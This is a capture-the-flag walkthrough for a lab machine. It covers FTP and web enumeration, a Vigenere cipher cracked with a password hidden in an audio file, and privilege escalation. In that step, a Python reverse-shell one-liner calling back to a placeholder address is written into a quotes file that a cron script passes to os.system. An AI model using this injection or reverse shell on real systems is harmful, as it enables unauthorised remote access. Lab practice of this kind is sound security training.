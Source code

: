 # what I learn
- sonic-visualiser
- Vigenere cipher
# enumerate
PORT
- 21/tcp open  ftp
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
```
- 22/tcp open  ssh
- 80/tcp open  http
  - Apache/2.4.29 (Ubuntu) Server at 10.10.50.103 Port 80
  - GOBUSTER
    - /contracts (Status: 301)
    - /html (Status: 301)
    - /images (Status: 301)
    - /index.html (Status: 200)
    - /scripts (Status: 301)
      - CowardlyGoblin 2020-05-18 17:55 	7.4K	 
      - ForgetfulThug	2020-05-18 17:55 	7.2K
      - MeanLion	2020-05-18 17:55 	7.4K
      - SelfishGhost	2020-05-18 17:55 	7.0K
      - TactlessTiger	2020-05-18 17:55 	7.0K	 
    - /auditions
      - must_practice_corrupt_file.mp3

* must_practice_corrupt_file.mp3: containt a hidden message.
I used sonic-visualiser to analyzed the audio and acquired a password
* dad_tasks: contain a cipher text in base64
decoded the text from base64:
```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```
after some using analyzer, I found out that the text is encrypted with Vigenere Cipher, by using the password that we acquired from the .mp3 to decrypt the text:
```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... <password>
```


# foothold
now let ssh to the server using weston + password:

```console
weston@national-treasure:~$ sudo -l
[sudo] password for weston: 
Matching Defaults entries for weston on national-treasure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
weston@national-treasure:~$ ^C
weston@national-treasure:~$ cat /usr/bin/bees
#!/bin/bash

wall "AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
weston@national-treasure:~$ bees
                                                                               
Broadcast message from weston@national-treasure (pts/0) (Sat Jul 25 13:55:02 20
                                                                               
AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!
weston@national-treasure:~$ id
uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)
```
during the time I enumerate the server, there is a message which pop up from time to time (cronjob)
```
Broadcast message from cage@national-treasure (somewhere) (Sat Jul 25 13:42:01 
                                                                               
Well, I'm one of those fortunate people who like my job, sir. Got my first chemistry set when I was seven, blew my eyebrows off, we never saw the cat again, been into it ever since. — The Rock
```
As you see, there is a file call `bees` which didnt do much. note that weston are user of group `cage`. I then decided to serach for a file which own by *group cage*
```console
weston@national-treasure:~$ find / -group cage 2> /dev/null
/home/cage
/opt/.dads_scripts
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quote
weston@national-treasure:~$ ls -la /opt/.dads_scripts/.files/.quotes
-rwxrw---- 1 cage cage 4204 May 25 23:47 /opt/.dads_scripts/.files/.quotes
```
There are really interesting file. for instance `spread_the_quotes.py`
```py
weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```
so the script is pick a quote randomly from `/opt/.dads_scripts/.files/.quotes`. Thereafter `os.system` was call to print the qoute. Since `os.system` was call, we can inject a os command to script and make it do what ever we want. In this case we will inject a reverse shell to `/opt/.dads_scripts/.files/.quotes`.


remove all qoute by ```echo '' > /opt/.dads_scripts/.files/.quotes``` and insert the following command in `.quotes`: 
```py
; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
note that we added `;`. coz we need to escalate from `'wall + '`. now `os.system` will execute *wall* and our reverse shell seperately. Now open netcat and wait for the shell

# user flag
```
$ whoami
cage
$ ls
email_backup
Super_Duper_Checklist
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ id
id
uid=1000(cage) gid=1000(cage) groups=1000(cage),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```
the user flag can be found in one of the file in `/home/cage`.

# root
after some enumerating I found a really wried email:
```
Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage
```
`haiinspsyanileph` is a cipher text. enctyted using Vigenere cipher: what is the password? check for the word that appear many time in the text. User Chef, Vigenere decoder to get the plaintext
```
$ su root
su root
```
# ref:
- https://www.youtube.com/watch?v=rD-HTcYQmBU
- [vigenere cracker](https://www.guballa.de/vigenere-solver)
- [Cipher Identifier and Analyzer](https://www.boxentriq.com/code-breaking/cipher-identifier)

